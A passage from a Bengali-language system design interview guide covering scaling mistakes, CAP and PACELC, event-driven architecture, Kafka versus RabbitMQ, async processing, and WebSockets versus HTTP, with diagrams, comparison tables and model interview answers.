- **Avoid Premature Horizontal Scaling:** ছোট প্রজেক্ট বা স্টার্টআপে ট্রাফিকের পরিমাণ কম হলে শুরুতেই অনুভূমিক স্কেলিংয়ের জটিল সেটআপ (যেমন Kubernetes, Shared Redis, S3 sync) না করে একটি বড় ভিএম (Vertical Scale) দিয়ে মনোলিথ চালানো বেশি লাভজনক ও বুদ্ধিমানের কাজ।

### Common Mistakes

- **Scaling horizontally while app saves local state:** সিস্টেমে ২ বা ততোধিক সার্ভার সচল আছে। ইউজার সার্ভার ১-এ লগইন করলো এবং সেশন সার্ভার ১-এর মেমোরিতে সেভ হলো। পরবর্তী এপিআই রিকোয়েস্ট লোড ব্যালেন্সার সার্ভার ২-এ পাঠালে সার্ভার ২ ইউজারকে বলবে "You are not logged in!" (Authentication State issue).
- **Ignoring Database bottleneck:** ব্যাকএন্ড নোড ১০টা বাড়িয়েও কোনো লাভ নেই যদি আপনার ডাটাবেসটি স্কেল বা অপটিমাইজ না থাকে। কারণ সব কন্টেইনার নোড দিনশেষে ওই একক ডাটাবেসের কানেকশন পুলেই রিড/রাইট কুয়েরি মারবে।

### Interview Angle

> "ভার্টিকাল স্কেলিং কোড বা ডিস্ট্রিবিউটেড সিস্টেমের জটিলতা ছাড়াই কুইক পারফরম্যান্স বুস্ট দেয়, তবে এর ফিজিক্যাল হার্ডওয়্যার লিমিট এবং SPOF রিস্ক রয়েছে। অপরদিকে হরিজন্টাল স্কেলিং হাই-এভেইলেবিলিটি ও থিওরেটিক্যাল আনলিমিটেড স্কেল দেয়, তবে এর জন্য স্টেটলেস অ্যাপ্লিকেশন ডিজাইন এবং সেন্ট্রাল ডেটা/সেশন স্টোর মেইনটেইন করা আবশ্যক। প্রোডাকশনে আমরা অ্যাপ্লিকেশন হরিজন্টাল এবং ডাটাবেস মূলত ভার্টিকাল ও রিড-রেপ্লিকা দিয়ে স্কেল করি।"


## 21. CAP Theorem

### Core Idea

**CAP Theorem (Brewster's Theorem):** হলো ডিস্ট্রিবিউটেড সিস্টেম ডিজাইনের সবচেয়ে মৌলিক প্রমেয় বা থিওরেম। এটি বলে যে, একটি ডিস্ট্রিবিউটেড ডাটা স্টোরে যদি কোনো নেটওয়ার্ক পার্টীশন বা ভাঙন (Network Partition) ঘটে, তবে সিস্টেম একই সাথে নিচের ৩টি গ্যারান্টির মধ্যে সর্বোচ্চ ২টি গ্যারান্টি দিতে পারবে, ৩টি একসাথে দেওয়া ক্রিপ্টোগ্রাফিক্যালি বা ফিজিক্যালি অসম্ভব:

1. **Consistency (C):** সব নোড একই সময়ে একই লেটেস্ট ডাটা দেখবে (Strong Consistency).
2. **Availability (A):** নেটওয়ার্কে কোনো নোড ফেইল করলেও প্রতিটি নন-ফেইলিং নোড থেকে রিকোয়েস্টের সাকসেসফুল রেসপন্স পাওয়া যাবে (Availability of Response).
3. **Partition Tolerance (P):** সিস্টেমের নোডগুলোর মাঝে নেটওয়ার্ক পার্টীশন বা মেসেজ লস/ডিলে হলেও পুরো ডিস্ট্রিবিউটেড সিস্টেমটি সচল থাকবে।

### CAP থিওরেম ট্রিও এবং নেটওয়ার্ক পার্টীশন অপশন



### Real Choice: CP vs AP

বাস্তব ডিস্ট্রিবিউটেড সিস্টেমে নেটওয়ার্ক পার্টীশন বা মেসেজ ড্রপ (P) সম্পূর্ণ এড়ানো অসম্ভব। তাই সিস্টেম ডিজাইনারকে মূলত **C এবং A**-এর মধ্যে যেকোনো একটি বেছে নিতে হয়:

#### CP System (Consistency + Partition Tolerance)
যদি নেটওয়ার্ক ভেঙে যায়, তবে ডাটা কনসিস্টেন্সি বজায় রাখতে সিস্টেম রিড/রাইট রিকোয়েস্ট রিজেক্ট বা এরর রিটার্ন করবে (অর্থাৎ সিস্টেম তার Availability স্যাক্রিফাইজ করবে)।
- **উদাহরণ:** ব্যাংকিং ট্রানজেকশন, ইনভেন্টরি বুকিং (টাকা কাটা হবে অথচ লেটেস্ট ব্যালেন্স আপডেট হবে না, এমনটা অসম্ভব)।

#### AP System (Availability + Partition Tolerance)
যদি নেটওয়ার্ক পার্টীশন হয়, তবে কনসিস্টেন্সি স্যাক্রিফাইজ করে সিস্টেম রিকোয়েস্ট ভ্যালিড রেসপন্স সহ এক্সেপ্ট করবে, যার ফলে কিছু নোডে সাময়িকভাবে পুরনো বা ভুল ডাটা দেখাতে পারে। পরবর্তীতে নেটওয়ার্ক ঠিক হলে ডাটা সিঙ্ক (Eventual Consistency) হবে।
- **উদাহরণ:** সোশ্যাল মিডিয়া লাইক কাউন্ট, মেসেঞ্জার স্ট্যাটাস, নিউজ ফিড।

### Senior Insight

- **CAP only applies during Partitions:** অনেকে মনে করেন সিস্টেমে নরমাল টাইমেও মনে হয় কনসিস্টেন্সি বা এভেইলেবিলিটি যেকোনো একটি বন্ধ রাখতে হয়। এটি ভুল! নেটওয়ার্ক পার্টীশন না থাকলে সিস্টেম Consistency এবং Availability দুটোই দিতে পারে।
- **PACELC Theorem:** আধুনিক ব্যাকএন্ড আর্কিটেকচারে CAP থিওরেমের এক্সটেনশন হিসেবে **PACELC** থিওরেম জানা দরকার। এটি বলে:
  - If there is a Partition (P), choose Consistency (C) or Availability (A).
  - Else (E), choose Latency (L) or Consistency (C).
  - এটি ব্যাখ্যা করে কেন DynamoDB বা Cassandra নরমাল টাইমে ফাস্ট লেটেন্সির জন্য কনসিস্টেন্সি স্যাক্রিফাইজ করে (AP-EL) এবং কেন Postgres/RDBMS রিড স্পিড সামান্য ধীর করে হলেও কড়া কনসিস্টেন্সি দেয় (PC-EC)।

### Common Mistakes

- **Thinking Partition Tolerance is optional:** ডিস্ট্রিবিউটেড সিস্টেমে নেটওয়ার্ক পার্টীশন অবধারিত। তাই P বাদ দিয়ে CA সিস্টেম ডিজাইন করার চিন্তা অবাস্তব ও কাল্পনিক (কারণ নেটওয়ার্ক ফেইল করবেই)।
- **Every data must be CP:** সব ডাটা কড়া কনসিস্টেন্ট হতে হবে এমন ভাবা ভুল, এতে সিস্টেমের পারফরম্যান্স ও স্কেলিং ক্যাপাসিটি মারাত্মকভাবে হ্রাস পায়। প্রজেক্টের বিজনেস রিকোয়ারমেন্ট বুঝে কনসিস্টেন্সি মডেল চুজ করা উচিত।

### Interview Angle

> "CAP থিওরেম অনুযায়ী নেটওয়ার্ক পার্টীশনের সময় একটি ডিস্ট্রিবিউটেড ডাটা স্টোরকে অবশ্যই Consistency (CP) অথবা Availability (AP)-এর মধ্যে একটি বেছে নিতে হবে। ব্যাংকিং বা পেমেন্ট সিস্টেমের মতো ক্রিটিক্যাল ডাটার ক্ষেত্রে আমরা CP মডেল চুজ করি এবং সোশ্যাল মিডিয়া বা ক্যাশিংয়ের ক্ষেত্রে আমরা AP (Eventual Consistency) মডেল ব্যবহার করে সিস্টেম স্কেল করি।"


## 22. Event-Driven Architecture

### Core Idea

**Event-Driven Architecture (EDA):** হলো এমন একটি সফটওয়্যার আর্কিটেকচারাল প্যাটার্ন যেখানে মাইক্রোসার্ভিসগুলো সরাসরি একে অপরকে সিনক্রোনাসলি কল (Tight Coupling REST/gRPC) না করে কোনো নির্দিষ্ট ঘটনার খবর বা **Event (যেমন OrderCreated)** মেসেজ ব্রোকারে পাবলিশ করে এবং অন্যান্য ইন্টারেস্টেড সার্ভিসগুলো সেই ইভেন্ট সাবস্ক্রাইব করে কাজ সম্পন্ন করে (Loose Coupling).

### EDA Communication Pattern



### Event-Driven-এর সুবিধা ও চ্যালেঞ্জ

**সুবিধাসমূহ:**
- **Extreme Decoupling:** অর্ডার সার্ভিসকে পেমেন্ট বা নোটিফিকেশন সার্ভিসের আইপি, ডোমেইন বা এপিআই পাথ জানার কোনো প্রয়োজন নেই।
- **High Resilience:** নোটিফিকেশন সার্ভিস সাময়িকভাবে ডাউন থাকলেও অর্ডার প্রসেসিং বন্ধ হবে না। নোটিফিকেশন সার্ভিস পরে চালু হয়ে মেসেজ ব্রোকার থেকে পেন্ডিং মেসেজ প্রসেস করে নিবে।
- **Parallel Processing:** একই ইভেন্ট শুনে একাধিক ডিপার্টমেন্ট বা সার্ভিস একসাথে কাজ করতে পারে, যা পারফরম্যান্স ও রেসপন্স টাইম অপটিমাইজ করে।

**চ্যালেঞ্জসমূহ:**
- **Eventual Consistency:** ডাটা ইনস্ট্যান্টলি সব নোডে আপডেট হয় না, সিঙ্ক হতে কয়েক মিলি-সেকেন্ড বা সেকেন্ড সময় লাগতে পারে।
- **Debugging & Tracing Complexity:** রিকোয়েস্ট ফ্লো ট্র্যাক করা অত্যন্ত কঠিন। এর জন্য **Correlation IDs** এবং ডিস্ট্রিবিউটেড ট্রেসিং (যেমন Jaeger বা OpenTelemetry) ব্যবহার করা আবশ্যক।
- **Duplicate & Ordering issues:** নেটওয়ার্ক টাইমআউটের কারণে একই মেসেজ একাধিকবার ডেলিভারি হতে পারে।

### Senior Insight (The Golden Rules of EDA)

1. **Idempotent Consumers:** যেহেতু মেসেজ ব্রোকারে Message Duplication খুবই সাধারণ, তাই কনজিউমার সার্ভিসকে অবশ্যই **১০০% Idempotent** হতে হবে। মেসেজ রিসিভ করার পর `event_id` চেক করে অলরেডি প্রসেসড হলে ইভেন্ট সাইলেন্টলি ড্রপ করতে হবে।
2. **At-Least-Once Delivery Focus:** রিয়াল নেটওয়ার্কে Exactly-once delivery দেওয়া অত্যন্ত কঠিন। তাই ব্যাকএন্ডে **At-least-once** মেসেজ গ্যারান্টি ধরে নিয়ে কনজিউমারে ডি-ডুপ্লিকেশন লজিক বসানো সবচেয়ে বাস্তবসম্মত আর্কিটেকচারাল সলিউশন।
3. **Dead Letter Queue (DLQ):** কোনো ইভেন্ট প্রসেস করতে গিয়ে যদি কোড ক্র্যাশ করে বা ডাটা এরর দেয়, তবে কনজিউমার লুপে বারবার ক্র্যাশ এড়াতে মেসেজটি একটি আলাদা **DLQ (Dead Letter Queue)**-তে সরিয়ে রেখে অ্যালার্ট পাঠানো উচিত, যাতে ইঞ্জিনিয়াররা ম্যানুয়ালি তা ডিবাগ করতে পারে।

### Common Mistakes

- **Treating EDA as a Sync Request:** ইভেন্ট পাবলিশ করার পর ইউজারের রিকোয়েস্ট থ্রেড ব্লক করে ইভেন্ট কনজিউমারের ফিনিশ রেসপন্সের জন্য ওয়েট করা সম্পূর্ণ ভুল এপ্রোচ।
- **No Event Schema Versioning:** মেসেজের ফরম্যাট বা স্কিমা ভবিষ্যতে চেঞ্জ হতে পারে। স্কিমা ভার্সনিং (using tools like Avro & Confluent Schema Registry) মেইনটেইন না করলে ওল্ড কনজিউমাররা নিউ মেসেজ ডিকোড করতে না পেরে ক্র্যাশ করবে।

### Interview Angle

> "Event-Driven Architecture এপিআই-এর Tight Coupling দূর করে হাই-স্কেলাবিলিটি ও রেজিলিয়েন্স দেয়। তবে এটি ইভেনচুয়াল কনসিস্টেন্সি ও ট্রেসিং জটিলতা নিয়ে আসে। সিনিয়র আর্কিটেকচার অনুযায়ী, আমরা মেসেজের At-least-once ডেলিভারি ধরে নিয়ে কনজিউমার লেভেলে শতভাগ Idempotency নিশ্চিত করি, ডেড লেটার কিউ (DLQ) রাখি এবং OpenTelemetry Correlation IDs দিয়ে ট্র্যাকিং মেইনটেইন করি।"


## 23. Message Queues (Kafka vs RabbitMQ)

### Core Idea

- **RabbitMQ (Traditional Message Broker):** এটি একটি "স্মার্ট" মেসেজ ব্রোকার যা AMQP প্রোটোকল ব্যবহার করে কাজ করে। এটি মেসেজের রাউটিং লজিক এবং কিউ স্টেট নিয়ে কাজ করে এবং কনজিউমার মেসেজ রিসিভ করে সাকসেসফুলি অ্যাকনলেজ (Ack) করলে কিউ থেকে মেসেজটি ডিলিট করে দেয়।
- **Kafka (Distributed Append-Only Commit Log):** এটি মূলত একটি রিয়েল-টাইম ডিস্ট্রিবিউটেড ইভেন্ট স্ট্রিমিং প্ল্যাটফর্ম। এটি মেসেজ ডিলিট করে না, বরং ডিস্কে একটি সিকোয়েন্সিয়াল ও পার্মানেন্ট লগ হিসেবে রাইট করে রাখে। একাধিক কনজিউমার গ্রুপ নিজের পজিশন বা **Offset** ট্র্যাক করে ডেটা রিড করে।

### Architectural Difference: Smart Broker vs Distributed Log

```mermaid
graph TD
    subgraph Rabbit_MQ [RabbitMQ: Smart Broker & Pop Queue]
        P1[Producer] --> Ex[Exchange: Smart Routing]
        Ex --> Q1[Queue A]
        Ex --> Q2[Queue B]
        Q1 --> C1[Consumer 1]
    end

    subgraph Kafka_Broker [Kafka: Append-only Commit Log]
        KP[Producer] --> Topic[Topic: OrderEvents]
        subgraph Topic_Log [Partition Append-only Log]
            M1[Msg 0] --> M2[Msg 1] --> M3[Msg 2] --> M4[Msg 3]
        end
        C_GrpA[Consumer Group A: offset=1] --> M2
        C_GrpB[Consumer Group B: offset=3] --> M4
    end
```

### RabbitMQ vs Kafka Comparison Table

| বৈশিষ্ট্য | RabbitMQ | Kafka |
| :--- | :--- | :--- |
| **ডিজাইন ফিলোসফি** | **Smart Broker, Dumb Consumer:** ব্রোকার নিজেই ট্র্যাক করে কে কোন মেসেজ পেল এবং কখন ডিলিট করতে হবে। | **Dumb Broker, Smart Consumer:** ব্রোকার জাস্ট রিড-রাইট ফাইল লক। কনজিউমার নিজেই নিজের Offset পয়েন্টার ট্র্যাক করে। |
| **মেসেজ লাইফটাইম** | কনজিউমার মেসেজ রিসিভ ও Ack করলে সাথে সাথে **মুছে ফেলা হয়**। | মেসেজ নির্দিষ্ট সময় (Retention Period, যেমন ৭ দিন) পর্যন্ত **সংরক্ষিত থাকে**। |
| **Throughput** | ভালো (মিলি-সেকেন্ড লেটেন্সি, ১০k-৫০k/sec)। | **চরম লেভেলের হাই** (লাখ লাখ মেসেজ/sec)। |
| **মেসেজ রাউটিং** | অত্যন্ত ফ্লেক্সিবল (Direct, Fanout, Topic Exchanges). | ফিক্সড রাউটিং (Partition key routing). |
| **Replay Events** | অসম্ভব (মেসেজ ডিলিট হয়ে যায়)। | **অত্যন্ত সহজ:** অফসেট জিরো করে পুরনো ডেটা আবার রি-রিড (Replay) করা যায়। |

### Senior Insight (Choosing the Right tool)

- **Choose RabbitMQ if:** আপনার কমপ্লেক্স রাউটিং লজিক দরকার (যেমন ইমেইল, নোটিফিকেশন, ব্যাকগ্রাউন্ড ভারী কাজ বন্টন করা), যেখানে মেসেজ প্রসেস হওয়ার সাথে সাথে মুছে ফেলা নিরাপদ এবং গ্যারান্টি দরকার।
- **Choose Kafka if:** আপনার চরম হাই-থ্রুপুট রিয়েল-টাইম ডেটা স্ট্রিমিং (যেমন উবার লাইভ কার ট্র্যাকিং, অ্যাক্টিভিটি ট্র্যাকিং লভ, ক্লিকস্ট্রিম অ্যানালিটিক্স, ফাইন্যান্সিয়াল ইভেন্ট সোর্সিং) দরকার, যেখানে পুরনো ইভেন্ট পুনরায় রি-রিড বা অ্যানালিটিক্স করার প্রয়োজন হতে পারে।
- **Kafka Ordering Guarantee:** ক্যাফকা শুধুমাত্র একটি নির্দিষ্ট **Partition**-এর ভেতর সিকোয়েন্সিয়াল অর্ডারিং গ্যারান্টি দেয়। সম্পূর্ণ টপিক জুড়ে গ্লোবাল অর্ডারিং চাইলে সিঙ্গেল পার্টিশন ব্যবহার করতে হবে, তবে এতে স্কেলাবিলিটি বা থ্রুপুট কমে যাবে।

### Common Mistakes

- **Using Kafka as a simple cron replacement or single task queue:** ক্যাফকা সেটআপ এবং অপ্টিমাইজেশন ওভারহেড অত্যন্ত বেশি (Requires ZooKeeper or Kraft cluster, partition design). সাধারণ টাস্ক ডিস্ট্রিবিউশনের জন্য RabbitMQ বা Redis-BullMQ ব্যবহার করা অনেক বেশি ক্লাইটওয়েট ও এফিশিয়েন্ট।
- **Not defining a proper Partition Key in Kafka:** পার্টিশন কী ডিফাইন না করলে ক্যাফকা রাউন্ড-রবিন মেথডে মেসেজ ভাগ করবে, যার ফলে একই ইউজারের ওল্ড এবং নিউ ইভেন্ট আলাদা পার্টিশনে চলে যাবে এবং ডেটা অর্ডারিং ব্রেক করবে।

### Interview Angle

> "RabbitMQ হলো একটি ট্র্যাডিশনাল এবং স্মার্ট মেসেজ ব্রোকার যা কাজের জটিল বন্টন ও ফ্লেক্সিবল রাউটিং সাপোর্ট করে। অপরদিকে Kafka হলো একটি হাই-পারফরম্যান্স ডিস্ট্রিবিউটেড কমিট লগ যা রিয়েল-টাইম ইভেন্ট স্ট্রিমিং ও ইভেন্ট রিপ্লেয়াবিলিটির জন্য আইডিয়াল। আমরা ব্যাকগ্রাউন্ড ভারী জবের জন্য RabbitMQ এবং ডেটা পাইপলাইন বা ইভেন্ট স্ট্রিমিংয়ের জন্য Kafka বেছে নিই।"


## 24. Async vs Sync Processing

### Core Idea

- **Sync (Synchronous) Processing:** এটি একটি ব্লকিং মডেল। ক্লায়েন্ট সার্ভারে রিকোয়েস্ট পাঠানোর পর সার্ভার সম্পূর্ণ কাজ শেষ করে রেসপন্স না দেওয়া পর্যন্ত ক্লায়েন্ট থ্রেড ব্লকড হয়ে অপেক্ষা করে।
- **Async (Asynchronous) Processing:** এটি একটি নন-ব্লকিং মডেল। ক্লায়েন্ট রিকোয়েস্ট পাঠানোর সাথে সাথে সার্ভার রিকোয়েস্টটি রিসিভ করে একটি জব বা কিউতে পুশ করে ক্লায়েন্টকে ওয়ান-শটে **"202 Accepted"** রেসপন্স দিয়ে বিদায় করে। ব্যাকগ্রাউন্ডে ওয়ার্কার থ্রেড কাজটি সম্পন্ন করে।

### Request Flow: Synchronous vs Asynchronous

```mermaid
sequenceDiagram
    autonumber
    actor Client as Frontend Client
    participant Server as Web Server
    participant Queue as Job Queue (Redis/RabbitMQ)
    participant Worker as Background Worker

    rect rgb(240, 248, 255)
        Note over Client, Server: Sync Request (Blocking - 15 seconds)
        Client->>Server: GET /generate-heavy-pdf
        Note over Server: Server converts 10,000 records to PDF...
        Server-->>Client: HTTP 200 OK (PDF File)
        Note over Client: User blocked, spinner rotating. Risk of Timeout!
    end

    rect rgb(255, 240, 245)
        Note over Client, Worker: Async Request (Non-blocking - 100ms)
        Client->>Server: POST /generate-heavy-pdf
        Server->>Queue: Push Job: {task: "pdf", userId: 12}
        Server-->>Client: HTTP 202 Accepted (Job ID: job_99)
        Note over Client: User can browse other pages. No Spinner!
        Worker->>Queue: Poll Job & Generate PDF in background
        Worker->>Client: Send WebSocket Notification or Email when done!
    end
```

### Sync vs Async Use Cases

| প্রসেস টাইপ | ব্যবহারের ক্ষেত্রে (Use Cases) | সুবিধা ও চ্যালেঞ্জ |
| :--- | :--- | :--- |
| **Sync (Synchronous)** | ইউজার লগইন (Auth), প্রোফাইল রিড, ইনস্ট্যান্ট ব্যালেন্স চেক, সাধারণ CRUD এপিআই। | **সুবিধা:** ডেভেলপমেন্ট সহজ, স্ট্রং কনসিস্টেন্সি। <br>**চ্যালেঞ্জ:** ভারী কাজে এপিআই গেটওয়ে টাইমআউট হবে এবং রিসোর্স ব্লক হবে। |
| **Async (Asynchronous)** | ইমেইল পাঠানো, পিডিএফ/রিপোর্ট এক্সপোর্ট, ইমেজ কম্প্রেস, পেমেন্ট সেটেলমেন্ট, নোটিফিকেশন ব্রডকাস্ট। | **সুবিধা:** হাই সার্ভার রেসপন্সিভনেস, চরম রেজিলিয়েন্স। <br>**চ্যালেঞ্জ:** কিউ মেকানিজম, জব ট্র্যাকিং এবং ফেইলিউর রিট্রাই হ্যান্ডেল করতে হয়। |

### Senior Insight (Async Job Status Pattern)

আসিনক্রোনাস এপিআই ডিজাইন করার সময় ব্যাকএন্ডে অবধারিতভাবে একটি **Job Status Tracking** মেকানিজম রাখতে হবে:
1. ইউজার যখন অ্যাসিনক্রোনাস রিকোয়েস্ট করবে, ব্যাকএন্ড তাকে `HTTP 202 Accepted` স্ট্যাটাসের সাথে একটি `job_id` রিটার্ন করবে।
2. ক্লায়েন্ট এই `job_id` দিয়ে ডাটাবেস বা Redis-এ জবের কারেন্ট স্ট্যাটাস জানতে পোলিং (Polling) করতে পারবে:
   - `PENDING` -> `PROCESSING` -> `COMPLETED` (with resource URL) / `FAILED`.
3. অথবা কাজ শেষ হওয়ার পর ব্যাকএন্ড থেকে **WebSockets** বা **Webhooks**-এর মাধ্যমে ক্লায়েন্টকে লাইভ পুশ নোটিফিকেশন পাঠাতে হবে।

### Common Mistakes

- **Executing third-party API calls synchronously inside main thread:** মূল এপিআই রিকোয়েস্ট থ্রেডের ভেতরে থার্ড-পার্টি সার্ভিস (যেমন SMS Gateway) কল করা। থার্ড-পার্টি সার্ভিস ডাউন বা ৫ সেকেন্ড স্লো হলে আপনার এপিআই-ও ৫ সেকেন্ড স্লো হয়ে যাবে। এটি অ্যাসিনক্রোনাসলি করা উচিত।
- **No Queue Backpressure Control:** যদি ১ মিনিটে ১ লাখ পিডিএফ বানানোর অ্যাসিনক্রোনাস রিকোয়েস্ট আসে এবং ওয়ার্কার লিমিট না থাকে, তবে নোড সার্ভারের র্যাম ফুল হয়ে পুরো ওএস ক্র্যাশ করবে। কিউতে কনকারেন্ট ওয়ার্কার লিমিট (Backpressure/Concurrency limits) বসাতে হবে।

### Interview Angle

> "Sync প্রসেস ইনস্ট্যান্ট রেসপন্সের জন্য আইডিয়াল তবে ভারী কাজের ক্ষেত্রে এটি সার্ভার থ্রেড ব্লক করে লেটেন্সি বাড়িয়ে দেয়। অপরদিকে Async প্রসেস ভারী বা এক্সটার্নাল এপিআই কল কিউতে পুশ করে সার্ভার থ্রুপুট ও ইউজার এক্সপেরিয়েন্স চরম উন্নত করে। আমরা অ্যাসিনক্রোনাস ফ্লোতে HTTP 202 Accepted এর সাথে Job status API এবং BullMQ/RabbitMQ ব্যবহার করে ব্যাকগ্রাউন্ড ওয়ার্কার আর্কিটেক্ট করি।"


## 25. WebSockets vs HTTP

### Core Idea

- **HTTP (HyperText Transfer Protocol):** এটি একটি ক্লাসিক **Stateless, Request-Response** প্রোটোকল। এখানে কমিউনিকেশন সবসময় ক্লায়েন্ট থেকে শুরু হয়। ক্লায়েন্ট রিকোয়েস্ট পাঠায়, সার্ভার রেসপন্স দিয়ে কানেকশন ক্লোজ করে দেয় (Uni-directional).
- **WebSockets:** এটি একটি **Stateful, Persistent, Bi-directional (দ্বিমুখী)** প্রোটোকল। এখানে ক্লায়েন্ট ও সার্ভারের মাঝে একবার হ্যান্ডশেক সফল হওয়ার পর কানেকশনটি সবসময় ওপেন থাকে এবং উভয় পক্ষ যেকোনো সময় ডেটা আদান-প্রদান করতে পারে (Full-Duplex).

### Connection Cycle: HTTP vs WebSocket

```mermaid
sequenceDiagram
    autonumber
    actor Client as Browser Client
    participant Server as Backend Server

    rect rgb(240, 248, 255)
        Note over Client, Server: HTTP Request-Response (Connection Closes)
        Client->>Server: GET /news
        Server-->>Client: HTTP 200 OK (News JSON)
        Note over Client, Server: Connection terminated.
    end

    rect rgb(255, 240, 245)
        Note over Client, Server: WebSocket Flow (Persistent Stream)
        Client->>Server: HTTP GET /chat (Upgrade: websocket)
        Server-->>Client: HTTP 101 Switching Protocols (Handshake successful)
        Note over Client, Server: Persistent TCP Connection established!
        Client->>Server: Send Message "Hello!" (No HTTP headers overhead)
        Server->>Client: Send Message "Hi, how can I help?"
        Server->>Client: Live Notification: "User X logged in!" (Server initiated push)
    end
```

### HTTP vs WebSockets Comparison Table

| বৈশিষ্ট্য | HTTP | WebSockets |
| :--- | :--- | :--- |
| **কানেকশন** | **Stateless:** প্রতিবার নতুন রিকোয়েস্ট-রেসপন্স শেষে কানেকশন রিলিজ হয়। | **Stateful:** হ্যান্ডশেকের পর দীর্ঘমেয়াদী কানেকশন ওপেন থাকে। |
| **কমিউনিকেশন** | একমুখী (Uni-directional). ক্লায়েন্ট ছাড়া সার্ভার রিকোয়েস্ট করতে পারে না। | দ্বিমুখী (Bi-directional/Full-Duplex). সার্ভার নিজে থেকে ক্লায়েন্টকে ডেটা পুশ করতে পারে। |
| **Overhead** | **উচ্চ:** প্রতি রিকোয়েস্টে বড় সাইজের HTTP Headers (cookies, agents) পাস হয়। | **অত্যন্ত কম:** হ্যান্ডশেকের পর শুধুমাত্র ফ্রেম ডেটা (২-৮ বাইট ওভারহেড) আদান-প্রদান হয়। |
| **ইউজ কেস** | সাধারণ REST APIs, ব্লগ, ই-কমার্স প্রোডাক্ট পেজ, স্ট্যাটিক রিসোর্স লোড। | লাইভ চ্যাট অ্যাপ, লাইভ স্পোর্টস স্কোর, ফাইনান্সিয়াল ট্রেডিং ড্যাশবোর্ড, কোলাবোরেটিভ এডিটর (Figma). |

### Real-time Alternatives

1. **Short Polling:** ক্লায়েন্ট প্রতি ৫ সেকেন্ড পর পর ব্যাক-টু-ব্যাক সার্ভারে রিকোয়েস্ট পাঠায় নতুন ডেটা আছে কিনা দেখতে। (অত্যন্ত ব্যাড প্র্যাকটিস, সার্ভার ওভারলোড করে)।
2. **Long Polling:** ক্লায়েন্ট রিকোয়েস্ট করে। সার্ভার কানেকশন হোল্ড করে রাখে যতক্ষণ না নতুন ডেটা আসে। ডেটা এলে রেসপন্স পাঠায় এবং কানেকশন কেটে যায়। ক্লায়েন্ট আবার রিকোয়েস্ট করে।
3. **SSE (Server-Sent Events):** এটি HTTP প্রোটোকল ব্যবহার করেই সার্ভার থেকে ক্লায়েন্টে ওয়ান-ওয়ে বা একমুখী লাইভ ডেটা স্ট্রিমিং (`text/event-stream`) করার চমৎকার লাইটওয়েট মেথড। (যেমন: লাইভ স্টক প্রাইস বা নোটিফিকেশন, যেখানে ক্লায়েন্ট থেকে সার্ভারে রিয়েল-টাইম লেখার প্রয়োজন নেই)।

### Senior Insight (Scaling WebSockets)

ওয়েবসকেট কানেকশন স্কেল করা সাধারণ REST এপিআই-এর চেয়ে সম্পূর্ণ ভিন্ন এবং কঠিন।
- **Sticky Connections:** লোড ব্যালেন্সারে স্টিকি সেশন অন রাখতে হবে যাতে হ্যান্ডশেক এবং পরবর্তী ফ্রেমগুলো একই নোড সার্ভারে হিট করে।
- **Distributed Pub/Sub (Redis):** ধরুন ইউজার A কানেক্টেড সার্ভার ১-এ এবং ইউজার B কানেক্টেড সার্ভার ২-এ। ইউজার A যদি B-কে মেসেজ পাঠায়, তবে সার্ভার ১ কীভাবে সার্ভার ২-কে বলবে B-এর সকেটে মেসেজ পুশ করতে? এই ক্ষেত্রে একটি সেন্ট্রাল **Redis Pub/Sub** বা NATS মেসেজ বাস ব্যাকএন্ড নোডগুলোর মাঝে ইন্টার-কানেক্টিভিটি মেইনটেইন করে।
- **Heartbeats & Idle timeouts:** মৃত সকেট কানেকশনগুলো রিলিজ করতে প্রতি ৩০ সেকেন্ড পর পর `Ping-Pong` ফ্রেম পাঠাতে হবে, অন্যথায় Connection Leak হয়ে সার্ভার মেমোরি ফুল হয়ে ক্র্যাশ করবে।

### Common Mistakes

- **Using WebSockets for standard CRUD operations:** সাধারণ ডেটা এন্ট্রি বা ডিলিটের জন্য ওয়েবসকেট ব্যবহার করা ভুল। এতে ক্যাশিংয়ের সুবিধা হারায় এবং সিকিউরিটি জটিল হয়।
- **Not implementing reconnection backoff on Client:** সার্ভার রিস্টার্ট নিলে হাজার হাজার ক্লায়েন্ট একই মিলি-সেকেন্ডে একসাথে রিকানেক্ট করার চেষ্টা করলে সার্ভার আবার ক্র্যাশ করবে। ক্লায়েন্টে অবশ্যই Exponential Reconnect Backoff থাকতে হবে।

### Interview Angle

> "HTTP স্টেটলেস এবং সাধারণ এপিআই রিড-রাইটের জন্য পারফেক্ট। অপরদিকে WebSocketspersistent ফুল-ডুপ্লেক্স কানেকশন দেয় যা চ্যাট বা ট্রেডিং ড্যাশবোর্ডের মতো রিয়েল-টাইম ফিচারের জন্য আইডিয়াল। ওয়েবসকেট স্কেল করার সময় আমরা ক্লায়েন্টে রিকানেক্ট পলিসি, লোড ব্যালেন্সারে স্টিকি সেশন এবং ব্যাকএন্ড নোডগুলোর মাঝে মেসেজ ব্রডকাস্ট করতে Redis Pub/Sub আর্কিটেক্ট করি।"


## 26. API Versioning Strategies

### Core Idea

